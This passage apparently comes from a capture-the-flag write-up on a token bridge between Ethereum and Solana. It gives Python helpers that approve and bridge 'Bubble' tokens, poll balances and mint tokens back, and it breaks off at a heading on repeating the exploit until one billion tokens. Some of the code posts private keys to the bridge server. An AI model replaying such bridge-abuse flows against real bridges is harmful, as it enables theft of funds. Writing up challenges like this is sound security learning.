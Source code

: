 #### 5. Sending Ethereum Bubbles to Solana Bubbles

```py
def bbl_to_sol(amount):
	nonce = w3.eth.get_transaction_count(eth_player_addr)
	approve_tx = bubble.functions.approve(eth_bridge_addr, amount).build_transaction({
		'from': eth_player_addr,
		'chainId': w3.eth.chain_id,
		'gas': 200000,
		'gasPrice': w3.to_wei('50', 'gwei'),
		'nonce': nonce,
		})
	signed_approve_tx = w3.eth.account.sign_transaction(approve_tx, private_key=eth_player_key)
	approve_tx_hash = w3.eth.send_raw_transaction(signed_approve_tx.raw_transaction)
	approve_tx_receipt = w3.eth.wait_for_transaction_receipt(approve_tx_hash)
	data = {
		"key": eth_player_key,
		"amount": amount,
		"target": str(sol_player_pubkey)
	}
	res = requests.post(f"{base_addr}/toSol", json=data)
	print(res.text)
```
#### 6. Waiting for the Solana Transaction

```py
start_time = time()
while time() - start_time < 30:
    curr_bal = int(get_bbl_bal_sol_player())
    if curr_bal >= base_amount:
        print(f"Balance updated! {curr_bal} $BBL")
        break
    print(f"Waiting for $BBL balance on SOL account to update...")
    sleep(2)
```

> This snippet will be included in the [looping logic](#8-exploiting-until-1-billion-bubbles)
{: .prompt-info}

#### 7. Minting new Ethereum Bubbles

```py
def bbl_to_eth(amount):
	data = {
			"key": sol_player_keypair.to_json(),
			"amount": amount,
			"target": eth_player_addr,
		}
	res = requests.post(f"{base_addr}/toEth", json=data)
	print(res.text)
```

#### 8. Exploiting until 1 Billion Bubbles
